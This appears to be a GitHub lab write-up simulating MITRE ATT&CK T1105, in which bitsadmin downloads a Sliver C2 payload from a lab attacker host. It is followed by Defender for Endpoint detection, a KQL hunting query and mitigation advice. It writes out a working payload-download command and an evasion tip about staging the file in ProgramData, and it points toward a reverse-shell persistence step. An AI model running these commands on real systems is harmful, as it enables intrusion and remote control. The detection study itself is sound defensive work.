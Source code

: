 # T1105 – Ingress Tool Transfer  
**MITRE ATT&CK Reference:** [T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

Attackers don’t always need fancy implants, but sometimes all they need is a way *in*. 
Once initial access is achieved, dropping follow-up tooling is step one in solidifying control. 
This test simulates a common move: using the deprecated but still operational `bitsadmin.exe` to download a C2 payload from an attacker-controlled server.

Despite being phased out, `bitsadmin.exe` still ships with Windows and remains a go-to for red teamers and adversaries alike. 
It’s signed, native, and capable of pulling files over HTTP. Perfect for flying under the radar.

---

## Scenario Overview

- **Attacker VM:** `HR-COMPLAINTS` (Ubuntu 22.04, Python HTTP server)  
  - **IP:** `10.1.0.51`
- **Target VM:** `CEO-LAPTOP` (Windows 10 w/ Microsoft Defender for Endpoint)  
  - **Admin User:** `TrustMeBro`

---

## Payload Transfer

The attacker hosts `updater.exe` (a malicious binary written with the C2 framework Sliver), using Python’s built-in web server:

```bash
sudo python3 -m http.server 80
```

From the Windows target, the attacker executes:

```cmd
bitsadmin /transfer downloader /priority foreground http://10.1.0.51/updater.exe C:\ProgramData\Microsoft\Windows\updater.exe
```

> ℹ️ **Why `ProgramData`?**  
> This location is writable, commonly used by legitimate applications, and unlikely to trigger suspicion or UAC prompts.  
> It also blends easily with system noise.

&nbsp;  
<img width="772" height="408" alt="download_payload_from_linux" src="https://github.com/user-attachments/assets/99caf106-68a9-4990-a3ee-d10b36375c81" />


---

## Detection

Despite using a commonly abused LOLBin to download a suspicious `.exe` file, **no alerts or incidents** were triggered by MDE. However, the event is recorded in the device timeline:

<img width="1699" height="167" alt="checking_device_timeline_for_bitsadmin_payload" src="https://github.com/user-attachments/assets/b0ef808a-6eff-45a1-9cbd-c9c748911240" />

We observe `bitsadmin.exe` initiating an outbound HTTP request to `10.1.0.51`.

---

## KQL – Bitsadmin Hunting

```kql
DeviceProcessEvents
| where FileName =~ "bitsadmin.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, ReportId
| order by Timestamp desc
```

<img width="1381" height="532" alt="checking_for_bitsadmin_payload_kql" src="https://github.com/user-attachments/assets/64890755-7ef0-4fd3-a311-db89081ab288" />

---  

## Defender’s Corner  
> While `bitsadmin.exe` is deprecated, it remains a quiet favorite among adversaries for staging payloads over HTTP. Its ability to download files without triggering immediate alerts makes it useful in the early stages of intrusion.

**Mitigation & Detection Guidance** (based on [MITRE ATT&CK T1105](https://attack.mitre.org/techniques/T1105/)):

- **Network-level visibility**  
  Use intrusion detection/prevention systems (IDS/IPS) to flag suspicious outbound connections — especially to uncommon IPs or internal rogue hosts.

- **Command-line monitoring**  
  Track execution of native tools like `bitsadmin.exe` with unusual arguments or connections to non-corporate domains.

- **File system events**  
  Alert on file creation in obscure or high-risk paths like `C:\ProgramData\Microsoft\Windows\`.

- **Baseline awareness**  
  Investigate new binaries dropped by unfamiliar processes — especially those involving legacy transfer methods.

Now that the payload is successfully downloaded, we’ll pivot to execution by creating a service that quietly runs the staged updater.exe reverse shell.

➡️ **Next Step:** Continue the attack chain with the follow-up technique:  
[T1543.003 – Windows Service Masquerade](../../01_persistence/services/T1543.003_windows_service_masquerade.md)

